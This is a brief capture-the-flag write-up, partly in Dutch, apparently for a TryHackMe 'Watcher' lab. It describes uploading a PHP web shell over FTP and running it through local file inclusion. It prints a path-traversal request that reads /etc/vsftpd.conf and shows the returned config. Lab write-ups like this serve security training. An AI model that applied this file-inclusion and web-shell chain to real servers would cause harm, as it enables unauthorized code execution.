


## Recon

### Overzicht

met de toegang die we hebben tot ftp, gaan we shell uploaden naar /files/ dir

### Steps to reproduce

1.

**Upload shell.php naar /files dir**



2.

**Use LFI to run the shell.php file.**

```
http://watcher.thm/post.php?post=../../..//etc/vsftpd.conf


listen=NO listen_ipv6=YES anonymous_enable=NO local_enable=YES write_enable=YES local_umask=022 dirmessage_enable=YES use_localtime=YES xferlog_enable=YES connect_from_port_20=YES chroot_local_user=YES secure_chroot_dir=/var/run/vsftpd/empty pam_service_name=vsftpd force_dot_files=YES pasv_min_port=40000 pasv_max_port=50000 user_sub_token=$USER local_root=/home/$
```

**File contains in /home/user/ftp/files/shell.php**

3.

**Running the shell**




